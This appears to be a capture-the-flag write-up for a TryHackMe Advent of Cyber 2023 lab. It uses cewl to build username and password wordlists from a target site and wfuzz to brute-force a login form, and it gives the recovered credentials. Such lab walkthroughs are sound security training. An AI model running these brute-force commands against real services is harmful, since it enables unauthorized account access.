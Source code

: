 Using `cewl`, we can generate a wordlist based on the content of AntarctiCrafts:

```console
$ cewl -d 2 -m 5 -w passwords.lst http://<VICTIM_IP> --with-numbers
```

Similarly, we can generate a wordlist of potential usernames using the content of `team.php`:

```console
$ cewl -d 0 -m 5 -w usernames.lst http://<VICTIM_IP>/team.php --lowercase
```

Now, we can bruteforce the login with `wfuzz`:

```console
$ wfuzz -c -z file,usernames.lst -z file,passwords.lst --hs "Please enter the correct credentials" -u http://<VICTIM_IP>/login.php -d "username=FUZZ&password=FUZ2Z"
```

To summarise, the above:

- `-z file,usernames.lst`: uses the list of generated usernames
- `-z file,passwords.lst`: uses the list of generated passwords
- `--hs "Please enter the correct credentials"`: hides the responses with the given error code
- `-u`: set the target URL
- `-d "username=FUZZ&password=FUZ2Z"`: provides the `HTTP POST` data

This ultimately produces the correct `username:password` combination:

![Advent of Cyber 2023 Day 4 - Credentials](tryhackme/images/aoc2023d4_credentials.png)

Using the credential combination `isaias:Happiness`, we can login and retrieve the flag:

![Advent of Cyber 2023 Day 4 - Flag](tryhackme/images/aoc2023d4_flag.png)
